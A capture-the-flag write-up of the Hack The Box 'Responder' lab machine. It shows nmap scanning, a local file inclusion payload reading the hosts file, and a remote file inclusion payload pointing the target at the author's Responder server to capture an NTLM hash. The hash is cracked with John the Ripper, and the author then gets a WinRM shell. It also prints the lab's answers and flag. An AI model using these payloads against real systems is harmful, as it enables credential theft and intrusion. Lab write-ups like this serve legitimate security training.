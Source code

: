 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Responder (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark>**&#x20;1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> WinRM / Custom Applications / Protocols / XAMPP / SMB / Responder / PHP\
  &#x20;            / Reconnaissance / Password Cracking / Hash Capture / Remote File Inclusion\
  &#x20;            / Remote Code Execution

<figure><img src="../../.gitbook/assets/image (120) (1).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (138) (1).png" alt=""><figcaption></figcaption></figure>

***

* Then I did an exhaustive scan to get more information about the service running on the open port

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p80 -sVC 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (140) (1).png" alt=""><figcaption></figcaption></figure>

***

* I found the HTTP protocol running on port 80, so I went to the browser to check the content being deployed. Hitting the site using the IP redirected me to a domain named _unika.htb,_ but I was unable to reach the server

<figure><img src="../../.gitbook/assets/image (139) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol you can go [here](../../networks/protocols/http.md)
{% endhint %}

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (141) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**unika.htb**_

***

* The reason why the page didn't show me content was that it wasn't on my list of known hosts. To fix this I added it by modifying the _/etc/hosts_ file, relating the IP to the _unika.htb_ domain. After that, I hit the site again, and it worked properly

{% code lineNumbers="true" %}
```bash
sudo nano /etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (142) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143) (1).png" alt=""><figcaption></figcaption></figure>

***

* Once there, I found a dashboard page for a business with some buttons which didn't work. Exploring the page I didn't find anything relevant so I used the [_Wappalyzer_](../../web-exploitation/tools-and-utilities.md#wappalyzer) extension to get some extra information about the technologies of the site

<figure><img src="../../.gitbook/assets/image (146) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (147) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**php**_

***

* Navigating to the top right corner I found a slider to select the language of the page which caught my attention. When I selected a different language from _english_, the language of the whole page changed and the URL showed a query reflecting this action

<figure><img src="../../.gitbook/assets/image (144) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (148) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**page**_



***

* To test if this query could be vulnerable to a Local File Inclusion attack, I tried listing the contents of the _/etc/hosts_ file by changing the value of the _page_ parameter. After some tries, I found a successful payload and displayed the content of the asked file

{% code title="Payload" lineNumbers="true" %}
```url
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (151) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Local File Inclusion exploitation you can go [here](../../web-exploitation/broken-access-control/local-file-inclusion.md)
{% endhint %}

***

* With this and a little research, I answered some questions

<figure><img src="../../.gitbook/assets/image (152) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

***

<figure><img src="../../.gitbook/assets/image (153) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**//10.10.14.6/somefile**_

***

<figure><img src="../../.gitbook/assets/image (154) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**New Technology Lan Manager**_

***

<figure><img src="../../.gitbook/assets/image (155) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-I**_

***

<figure><img src="../../.gitbook/assets/image (156) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**John The Ripper**_

***

* Knowing that I could abuse this, I tried using the [_Responder_](../../networks/tools-and-utilities.md#responder) utility to intercept the communication between the web server and the local system. That was to try to catch the credentials for the internal SMB service, based on the fact that it was a Windows system and could be running it. I started configuring the tool, so I modified the _Responder.config_ file to set the value _SMB_ to _On_

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (160) (1).png" alt=""><figcaption></figcaption></figure>

***

* After that, I initialized the tool specifying the network interface I wanted to use, in this case, the _tun0_ interface

<figure><img src="../../.gitbook/assets/image (161) (1).png" alt=""><figcaption><p>Snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (162) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
We can check the interface using the`ifconfig` command. Normally the _tun0_ interface is the one related to the connection with a VPN
{% endhint %}

***

* Then I went to the vulnerable endpoint again to modify the URL and tried to do in this case a Remote File Inclusion to my machine, to connect to the _Responder_ server I had deployed. With this action, the page displayed an error but when checking the terminal, _Responder_ had caught the credentials of the target

{% code title="Payload" overflow="wrap" lineNumbers="true" %}
```url
page=//10.10.14.195/somefile
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (163) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Remote File Inclusion exploitation you can go [here](../../web-exploitation/broken-access-control/remote-file-inclusion.md)
{% endhint %}

***

* I caught the communication from the _Administrator_ user and the corresponding hash, so I saved it in a text file. I could try to break the hash using the [_John The Ripper_](../../cryptography/tools-and-utilities.md#john-the-ripper) tool and the well-known _rouckyou.txt_ dictionary. After running it, I observed the cracking process was successful, obtaining the password _badminton_ for the user _Administrator_

{% code overflow="wrap" lineNumbers="true" %}
```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (166) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (165) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (159) (1).png" alt=""><figcaption></figcaption></figure>

> Answer:  _**badminton**_

***

<figure><img src="../../.gitbook/assets/image (157) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**5985**_

***

* Having these credentials, I could try to connect to the system directly. For this purpose, I used the _evil-winrm_ tool to try to get a shell and it worked successfully

<figure><img src="../../.gitbook/assets/image (167) (1).png" alt=""><figcaption></figcaption></figure>

***

* Searching through the system, I found a file called _flag.txt_ in the _C:\Users\mike\Desktop_ folder. Finally, I checked the content of the _flag.txt_ file, retrieving the flag

<figure><img src="../../.gitbook/assets/image (168) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (169) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (133) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ea81b7afddd03efaa0945333ed147fac**_

